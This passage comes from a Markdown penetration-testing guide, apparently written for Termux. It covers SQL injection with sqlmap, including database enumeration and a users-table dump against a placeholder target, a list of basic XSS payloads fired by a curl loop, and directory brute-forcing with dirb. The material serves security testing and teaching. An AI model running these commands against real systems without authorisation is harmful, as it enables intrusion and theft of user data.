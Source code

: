 
## 3. Web Application Security Testing

### 3.1 SQL Injection Testing

```bash
pkg install sqlmap -y

# Basic SQLi test
sqlmap -u "http://target.com/page?id=1"

# Advanced options
sqlmap -u "http://target.com/page?id=1" --dbs --batch
sqlmap -u "http://target.com/page?id=1" -D database --tables
sqlmap -u "http://target.com/page?id=1" -D database -T users --dump

# POST request SQLi
sqlmap -u "http://target.com/login" --data="username=admin&password=pass"
```

### 3.2 XSS (Cross-Site Scripting) Testing

```bash
# Manual XSS payloads
cat > xss_payloads.txt << 'EOF'
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
javascript:alert('XSS')
<iframe src="javascript:alert('XSS')">
EOF

# Test dengan curl
while read payload; do
  curl -s "http://target.com/search?q=$payload" | grep -i "XSS"
done < xss_payloads.txt
```

### 3.3 Directory Bruteforce

```bash
pkg install dirb -y

# Scan directories
dirb http://target.com

# Custom wordlist
dirb http://target.com /path/to/wordlist.txt

# With extensions
dirb http://target.com -X .php,.html,.txt
```
